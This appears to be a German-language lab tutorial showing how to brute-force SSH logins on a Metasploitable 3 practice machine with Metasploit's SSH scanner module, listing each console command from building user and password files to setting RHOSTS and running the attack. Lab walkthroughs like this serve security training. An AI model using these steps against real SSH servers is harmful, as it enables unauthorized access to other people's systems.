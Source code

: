 # SSH

## Files erstellen

User und Passwort File erstellen:

``` bash
cd Documents
nano user.txt
cp user.txt passwort.txt
ls
```

![Bild01.jpg](/images/Metaspolitable-3/SSH/Bild01.jpg)

## Starten der Metasploit-Konsole

Wenn man einen Exploit gefunden hat, der mit Metasploit funktioniert, kann man das Metasploit-Tool verwenden, um den Exploit zu starten. Dafür muss man zuerst die Metasploit-Konsole starten:

``` bash
msfconsole
```

![Bild02.jpg](/images/Metaspolitable-3/SSH/Bild02.jpg)

## Suche nach dem Exploit in der Metasploit-Konsole

Nachdem die Konsole gestartet wurde, muss man noch nach dem Exploit suchen:

``` bash
search scanner/ssh/ssh
```

![Bild03.jpg](/images/Metaspolitable-3/SSH/Bild03.jpg)

## Auswahl des Exploits

Um den Exploit auszuwählen, gibt man den folgenden Befehl ein (0 = die Nummer des Exploits in der Liste):

``` bash
use 0
```

![Bild04.jpg](/images/Metaspolitable-3/SSH/Bild04.jpg)

## Anzeigen von Optionen

Mit dem folgenden Befehl kann man sich die zu konfigurierenden Optionen anzeigen lassen:

``` bash
show options
```

![Bild05.jpg](/images/Metaspolitable-3/SSH/Bild05.jpg)

## Optionen setzen

Danach kann man mit dem folgenden Befehl die Option setzen:

```
set PASS_FILE <Pfad zur Passwort.txt>
```

![Bild06.jpg](/images/Metaspolitable-3/SSH/Bild06.jpg)

```
set USER_FILE <Pfad zur User.txt>
```

![Bild07.jpg](/images/Metaspolitable-3/SSH/Bild07.jpg)

```
set RHOSTS <IP-Adresse>
```

![Bild08.jpg](/images/Metaspolitable-3/SSH/Bild08.jpg)

```
set VERBOSE true
```

![Bild09.jpg](/images/Metaspolitable-3/SSH/Bild09.jpg)

## Starten des Exploits

Zum Schluss muss man mit dem folgenden Befehl den Exploit starten:

``` bash
run
```

![Bild10.jpg](/images/Metaspolitable-3/SSH/Bild10.jpg)
![Bild11.jpg](/images/Metaspolitable-3/SSH/Bild11.jpg)